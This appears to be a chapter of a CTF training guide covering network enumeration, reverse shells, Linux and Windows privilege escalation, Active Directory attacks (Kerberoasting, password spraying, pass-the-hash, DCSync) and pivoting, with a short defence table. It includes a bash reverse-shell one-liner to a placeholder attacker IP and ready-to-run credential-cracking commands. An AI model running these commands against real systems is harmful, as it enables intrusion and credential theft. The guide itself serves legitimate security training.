




# 6. Network services, privilege escalation and Active Directory

The "realistic IT environment" in CyberSci means you will meet servers, services, and Windows domains. This module is the map.

## 6.1 Recon: what is on the network?

```bash
nmap -sC -sV -oN scan.txt TARGET          # default scripts + versions
nmap -p- --min-rate 2000 TARGET           # all ports, fast
nmap -sU --top-ports 20 TARGET            # common UDP
```



Enumerate each service by hand:

| Service | First commands |
|---|---|
| FTP 21 | `ftp TARGET` (try `anonymous`); `nmap --script ftp-anon` |
| SSH 22 | banner/version; keys; weak creds (hydra) |
| HTTP 80/443 | `curl -i`, `ffuf`, `nikto`, robots.txt |
| SMB 139/445 | `smbclient -L //T -N`; `enum4linux-ng`; `nxc smb T -u '' -p ''` |
| LDAP 389 | `ldapsearch -x -H ldap://T -b "dc=corp,dc=local"` |
| SNMP 161/udp | `snmpwalk -v2c -c public T` |
| NFS 2049 | `showmount -e T`; mount shares |
| MySQL/MSSQL | `mysql -h T -u root`; `impacket-mssqlclient` |
| Redis 6379 | `redis-cli -h T`; `INFO`, `KEYS *` |

## 6.2 Getting a shell

| Method | Idea |
|---|---|
| Exploit a service | `searchsploit <name> <version>`; read the exploit before running |
| Web vuln to RCE | command injection, file upload, SSTI |
| Credentials | reuse, default, found in files/history |
| Reverse shell | target connects out to you |

Reverse shell (listener on your box, payload on the target):

```bash
nc -lvnp 4444                              # you
bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'   # target
```

Stabilise the shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# then Ctrl+Z; stty raw -echo; fg; export TERM=xterm
```

## 6.3 Linux privilege escalation



| Check | Look for | Reference |
|---|---|---|
| `sudo -l` | commands runnable as root without a password | GTFOBins |
| SUID/SGID | `find / -perm -4000 2>/dev/null` | GTFOBins |
| Capabilities | `getcap -r / 2>/dev/null` (e.g. `cap_setuid`) | GTFOBins |
| Cron | writable scripts; relative paths; wildcards | `/etc/cron*`, `pspy` |
| PATH / library hijack | writable dir in a root script's PATH | |
| Writable files | `find / -writable -type f 2>/dev/null` | `/etc/passwd`, services |
| Credentials | history, config files, `.env`, `.ssh`, backups | `grep -ri password` |
| Services | local-only ports | `ss -tlnp` |
| Kernel | last resort | `uname -a`, searchsploit |
| Containers | `docker` group = root | `docker run -v /:/mnt ...` |

Automation (after manual): `linpeas.sh`, `pspy`.

## 6.4 Windows privilege escalation

| Check | Command |
|---|---|
| who am I | `whoami /all` (look for SeImpersonate, SeBackup) |
| system info | `systeminfo` |
| services | `sc qc <svc>`; unquoted paths; weak permissions (`icacls`) |
| scheduled tasks | `schtasks /query /fo LIST /v` |
| stored creds | `cmdkey /list`; browser; registry autologon |
| AlwaysInstallElevated | registry check |
| token abuse | `SeImpersonatePrivilege` → potato family |

Automation: `winPEAS`, `PowerUp`, `Seatbelt`.

## 6.5 Active Directory in one page

An AD **domain** is a database of users, groups and computers, run by **domain controllers (DCs)**. **Kerberos** is the authentication protocol.



| Term | Meaning |
|---|---|
| DC | domain controller (holds the directory and the KDC) |
| SPN | service principal name: a service's identity |
| TGT / TGS | ticket-granting ticket / service ticket |
| NTLM hash | password-equivalent usable for pass-the-hash |
| GPO | group policy |
| BloodHound | graph tool showing attack paths |

### Attack path



### Core techniques

| Technique | Needs | Tool |
|---|---|---|
| Enumerate users/shares | any domain account (sometimes none) | `nxc`, `enum4linux-ng`, `ldapsearch` |
| AS-REP roast | accounts without pre-auth | `impacket-GetNPUsers` |
| Kerberoast | any domain user | `impacket-GetUserSPNs` |
| Password spraying | user list + one guess | `nxc smb ... --continue-on-success` (watch lockouts!) |
| Pass-the-hash | NTLM hash | `impacket-psexec`, `nxc` |
| BloodHound | collector run as domain user | `bloodhound-python`, SharpHound |
| ACL abuse | GenericAll/WriteDACL etc. on objects | BloodHound paths, `bloodyAD` |
| DCSync | replication rights | `impacket-secretsdump` (lab only) |

Kerberoast example:

```bash
impacket-GetUserSPNs corp.local/alice:'Passw0rd!' -dc-ip 10.0.0.10 -request -outputfile spn.hash
hashcat -m 13100 spn.hash rockyou.txt
```

## 6.6 Pivoting

When the target network is not directly reachable:

```bash
ssh -L 8080:10.10.0.5:80 user@jump        # local forward
ssh -D 1080 user@jump                     # SOCKS proxy; use proxychains
chisel server -p 9000 --reverse           # on you
chisel client YOU:9000 R:socks            # on the foothold
```

## 6.7 Windows server basics you will meet

- **Event Viewer / logs**: 4624/4625 logons, 4688 process creation.
- **PowerShell**: `Get-Process`, `Get-NetTCPConnection`, `Get-LocalUser`, `Get-ChildItem -Recurse`.
- **Registry run keys**: persistence.
- **Scheduled tasks and services**: persistence and privilege escalation.

## 6.8 Defence view (useful in CTF "blue" tasks)

| Attack | Detection / fix |
|---|---|
| Kerberoast | long service-account passwords; alert on mass TGS requests (4769) |
| Password spray | account lockout; alert on many 4625 across users |
| Pass-the-hash | limit local admin reuse (LAPS); Protected Users |
| Cron/SUID abuse | audit scripts; remove unneeded setuid |

## 6.9 Practice plan

| Order | Practice |
|---|---|
| 1 | Nmap + service enumeration on VulnHub boxes |
| 2 | THM Linux PrivEsc; manual first, linpeas after |
| 3 | THM Windows PrivEsc |
| 4 | AD Basics + Attacktive Directory |
| 5 | Your own Server 2022 AD lab: Kerberoast + BloodHound |
| 6 | Pivoting with chisel/ligolo |

## 6.10 Check yourself

1. What are the first five commands in any new Linux shell?
2. Why can any domain user Kerberoast?
3. What is the difference between pass-the-hash and cracking a hash?
4. How do you list setuid files and why do you care?
5. Why is `docker` group membership as good as root?
